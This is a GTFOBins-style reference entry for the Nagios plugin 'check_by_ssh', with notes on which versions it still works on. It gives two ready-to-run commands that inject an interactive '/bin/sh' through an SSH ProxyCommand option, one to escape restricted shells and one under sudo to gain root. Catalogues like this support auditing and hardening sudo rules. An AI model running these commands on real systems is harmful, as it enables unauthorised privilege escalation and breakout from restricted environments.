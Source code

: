 # GTFOBin: check_by_ssh

This is the `check_by_ssh` Nagios plugin, available e.g. in `/usr/lib/nagios/plugins/`.

When `check_by_ssh` version `2.4.5` (2023-05-31) or later from the Nagios
Plugins project in it’s default configuration is used, it does not work anymore.

It does still work on previous versions from the Nagios Plugins project or
all versions from the Monitoring Project (e.g. used by Ubuntu/Debian).

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

The shell will only last 10 seconds.

```
check_by_ssh -o "ProxyCommand /bin/sh -i <$(tty) |& tee $(tty)" -H localhost -C xx
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The shell will only last 10 seconds.

```
sudo check_by_ssh -o "ProxyCommand /bin/sh -i <$(tty) |& tee $(tty)" -H localhost -C xx
```